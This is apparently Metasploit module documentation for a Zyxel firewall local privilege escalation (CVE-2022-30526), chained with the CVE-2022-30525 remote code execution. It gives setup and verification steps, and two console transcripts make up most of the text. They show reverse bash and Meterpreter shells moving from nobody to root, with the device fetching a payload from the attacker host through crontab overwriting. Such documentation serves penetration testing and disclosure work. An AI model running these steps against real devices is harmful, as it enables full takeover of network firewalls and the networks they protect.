 ## Vulnerable Application

### Description

This module exploits CVE-2022-30526, a local privilege escalation vulnerability that
allows a low privileged user (e.g. `nobody`) escalate to root. The issue stems from
a suid binary that allows all users to copy files as `root`. This module overwrites
the firewall's crontab to execute an attacker provided script, resulting in code
execution as `root`.

In order to use this module, the attacker must first establish shell access. For
example, by exploiting CVE-2022-30525.

Known affected Zyxel models are:

* USG FLEX 50, 50W, 100W, 200, 500, 700
* ATP 100, 200, 500, 700, 800
* VPN 50, 100, 300, 1000
* USG20-VPN and USG20W-VPN

### Setup

The vulnerable system is a hardware firewall/vpn that, to our knowledge,
cannot be emulated. As such, testing requires a physical device. Once the
device has been acquired, you'll need to accomplish the following:

* Once powered on, register the device with Zyxel. You cannot do anything
with the device until this is accomplished. Fortunately, the web interface
will force you to complete this process. You'll need to create an account at
https://portal.myzyxel.com and the firewall will need internet connectivity
to complete the process.

* Once the device is up to date, you'll need to downgrade the firmware. From
portal.myzyxel.com you can download old firmware from:

Devices Management -> Firmware Download

From there you can select model and version to download. The last vulnerable
version from the affected systems is 5.21 Patch 1.

* Once you are using the vulnerable version, there is no special configuration
you need to exploit from the LAN. If you want to exploit from the WAN, you'll
need to enable "HTTP" and/or "HTTPS" through the firewall. From the web interface
do:

Configuration -> Objects -> Service -> Service Group -> Default_Allow_WAN_To_ZyWALL

And move "HTTP" and/or "HTTPS" from the left column to the right. After applying
the firewall should pass HTTP/HTTPS through the firewall to the web interface.

* That's it. You are good to go.

## Verification Steps

* Follow setup steps above.
* Establish a shell on the device. See `exploit/linux/http/zyxel_ztp_rce`
* Do: `use exploit/linux/local/zyxel_suid_cp_lpe`
* Do: `check`
* Verify the remote host is exploitable
* Do: `set LHOST <ip>`
* Do: `run`
* Verify the module acquires a root shell

## Options

## Scenarios

### Successful escalation to root bash shell on USG Flex 100 using firmware 5.21

```
msf6 > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf6 exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Sending command to /ztp/cgi-bin/handler
[*] Command shell session 1 opened (10.0.0.28:4444 -> 10.0.0.14:50827) at 2022-05-13 11:55:47 -0700
[+] Command successfully executed.

id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
cat /zyinit/fwversion
KERNEL_VERSION=3.10.87
FIRMWARE_VER=5.21(ABUH.1)521-r103462-k3
CAPWAP_VER=1.00.04
COMPATIBLE_PRODUCT_MODEL_0=E15D
COMPATIBLE_PRODUCT_MODEL_1=FFFF
COMPATIBLE_PRODUCT_MODEL_2=FFFF
COMPATIBLE_PRODUCT_MODEL_3=FFFF
COMPATIBLE_PRODUCT_MODEL_4=FFFF
MODEL_ID=USG FLEX 100
KERNEL_BUILD_DATE=2022-03-15 03:18:23
BUILD_DATE=2022-03-15 05:14:23
FSH_VER=1.0.0
^Z
Background session 1? [y/N]  y
msf6 exploit(linux/http/zyxel_ztp_rce) > use exploit/linux/local/zyxel_suid_cp_lpe
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/zyxel_suid_cp_lpe) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/local/zyxel_suid_cp_lpe) > set session 1
session => 1
msf6 exploit(linux/local/zyxel_suid_cp_lpe) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. System version: USG FLEX 100, 5.21(ABUH.1)521-r103462-k3
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Overwriting /var/zyxel/crontab
[*] The payload may take up to 60 seconds to be executed by cron
[+] Deleted /tmp/bJUQqm
[*] Resetting crontab to the original version
[+] Deleted /tmp/IcNlzvnv5
[*] Command shell session 2 opened (10.0.0.28:4444 -> 10.0.0.14:50829) at 2022-05-13 11:57:08 -0700

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux usgflex100 3.10.87-rt80-Cavium-Octeon #2 SMP Tue Mar 15 05:14:51 CST 2022 mips64 Cavium Octeon III V0.2 FPU V0.0 ROUTER7000_REF (CN7020p1.2-1200-AAP) GNU/Linux
```

### Successful escalation to root Meterpreter on USG Flex 100 using firmware 5.21

```
msf6 > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf6 exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Sending command to /ztp/cgi-bin/handler
[*] Command shell session 1 opened (10.0.0.28:4444 -> 10.0.0.14:50827) at 2022-05-13 11:55:47 -0700
[+] Command successfully executed.

id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
cat /zyinit/fwversion
KERNEL_VERSION=3.10.87
FIRMWARE_VER=5.21(ABUH.1)521-r103462-k3
CAPWAP_VER=1.00.04
COMPATIBLE_PRODUCT_MODEL_0=E15D
COMPATIBLE_PRODUCT_MODEL_1=FFFF
COMPATIBLE_PRODUCT_MODEL_2=FFFF
COMPATIBLE_PRODUCT_MODEL_3=FFFF
COMPATIBLE_PRODUCT_MODEL_4=FFFF
MODEL_ID=USG FLEX 100
KERNEL_BUILD_DATE=2022-03-15 03:18:23
BUILD_DATE=2022-03-15 05:14:23
FSH_VER=1.0.0
^Z
Background session 1? [y/N]  y
msf6 exploit(linux/http/zyxel_ztp_rce) > use exploit/linux/local/zyxel_suid_cp_lpe
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/zyxel_suid_cp_lpe) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/local/zyxel_suid_cp_lpe) > set session 1
session => 1
msf6 exploit(linux/local/zyxel_suid_cp_lpe) > set target 1
target => 1
msf6 exploit(linux/local/zyxel_suid_cp_lpe) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. System version: USG FLEX 100, 5.21(ABUH.1)521-r103462-k3
[*] Executing Linux Dropper for linux/mips64/meterpreter_reverse_tcp
[*] Using URL: http://10.0.0.28:8080/0g5aPNZ8DvT1n
[*] Overwriting /var/zyxel/crontab
[*] The payload may take up to 60 seconds to be executed by cron
[*] Client 10.0.0.14 (curl/7.70.0) requested /0g5aPNZ8DvT1n
[*] Sending payload to 10.0.0.14 (curl/7.70.0)
[+] Deleted /tmp/hdpBYBRk
[+] Deleted /tmp/OpTYd0c0
[*] Meterpreter session 3 opened (10.0.0.28:4444 -> 10.0.0.14:50832) at 2022-05-13 12:00:01 -0700
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Resetting crontab to the original version
[*] Server stopped.

meterpreter > shell
Process 29664 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux usgflex100 3.10.87-rt80-Cavium-Octeon #2 SMP Tue Mar 15 05:14:51 CST 2022 mips64 Cavium Octeon III V0.2 FPU V0.0 ROUTER7000_REF (CN7020p1.2-1200-AAP) GNU/Linux
```
